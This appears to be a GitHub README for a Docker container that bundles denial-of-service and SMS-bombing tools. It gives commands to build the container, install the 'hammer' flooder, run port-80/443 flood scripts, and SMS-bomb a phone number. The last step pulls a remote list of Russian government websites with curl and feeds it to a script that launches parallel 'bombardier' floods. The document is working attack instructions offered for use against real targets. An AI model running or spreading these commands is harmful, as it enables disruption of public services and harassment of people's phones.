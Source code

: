 # Intro

toolbox container includes:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Use


[more detailed documentation](containers/README.md)

(Optional) Build container:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Login into container shell:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

from here several tools are at your disposal:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

just launch DarkFly console:

```shell
DarkFly
```

follow `1` then `16` to install `hammer` into `/root/hammer.py` 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

to spawn several `bombardier`'s in isolated docker containers:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```